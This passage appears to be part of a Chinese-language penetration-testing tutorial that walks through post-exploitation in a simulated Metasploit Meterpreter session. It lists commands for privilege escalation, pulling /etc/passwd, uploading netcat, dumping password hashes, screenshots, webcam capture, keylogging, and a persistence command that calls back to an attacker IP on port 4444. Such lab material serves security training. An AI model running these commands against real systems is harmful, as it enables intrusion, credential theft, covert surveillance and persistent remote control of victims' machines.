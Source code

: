 ```bash
cat passwd
```
这个 Shell 功能有限。如果我们用的是 Meterpreter，那会强大得多。让我们模拟一个更常见的场景，假设我们通过另一个漏洞进入了 Meterpreter。

**（模拟）在 Meterpreter 会话中：**
如果你有一个 Meterpreter 会话（提示符为 `meterpreter >`），你可以做很多事情：

1.  **基本系统命令：**
    ```bash
    sysinfo          # 查看系统信息
    getuid           # 查看当前权限
    pwd              # 查看当前目录
    ls               # 列出文件
    ```

2.  **权限提升：**
    ```bash
    getsystem        # 尝试自动提权到 SYSTEM
    ```

3.  **文件系统操作：**
    ```bash
    download /etc/passwd /tmp/  # 从目标下载文件到攻击机
    upload /usr/share/windows-binaries/nc.exe C:\\  # 上传文件到目标
    ```

4.  **信息收集：**
    ```bash
    hashdump         # 抓取密码哈希值（需要 SYSTEM 权限）
    screenshot       # 截取目标屏幕
    webcam_snap      # 从摄像头拍照
    keyscan_start    # 开始键盘记录
    keyscan_dump     # 导出记录到的按键
    keyscan_stop     # 停止键盘记录
    ```

5.  **持久化：**
    ```bash
    run persistence -X -i 5 -p 4444 -r 192.168.1.104
    # -X： 系统启动时自启动
    # -i： 回连间隔（秒）
    # -p： 回连端口
    # -r： 攻击者IP
    ```

**会话管理：**
*   在 Meterpreter 或 Shell 中，输入 `background` 可以将会话放入后台，你会回到 `msf6 >` 提示符。
*   使用 `sessions` 命令查看所有存在的会话。
*   使用 `sessions -i [id]` 重新进入某个会话（例如 `sessions -i 1`）。

---